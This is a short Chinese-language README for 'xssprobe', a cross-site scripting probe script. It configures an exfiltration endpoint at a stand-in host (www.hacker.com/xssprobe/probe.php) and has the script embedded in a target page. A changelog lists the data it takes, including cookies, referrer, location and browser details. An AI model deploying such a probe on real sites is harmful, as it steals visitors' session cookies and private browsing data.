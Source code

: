 ﻿#xssprobe

xss探针脚本，用于获取被跨页面的通用数据。

##使用说明：

1.修改probe.js：
// 获取隐私信息的服务端页面，这里需配置为自己的probe.php网址
HTTP_SERVER = "http://www.hacker.com/xssprobe/probe.php?c=";

2.在目标页面嵌入probe.js文件，可以参考demo.html（xssprobe demo page）:)

by evilcos@gmail.com

##ChangeLog

* 2011/8/22
v1 能获取的数据如下：
    browser, ua, lang, referer, location, topLocation, cookie, domain, title, screen, flash

* 2013/12/11
重构代码方便代码压缩，增加对常见js框架（jQuer, ExtJS, dojo, YUI, Prototype等）的版本探测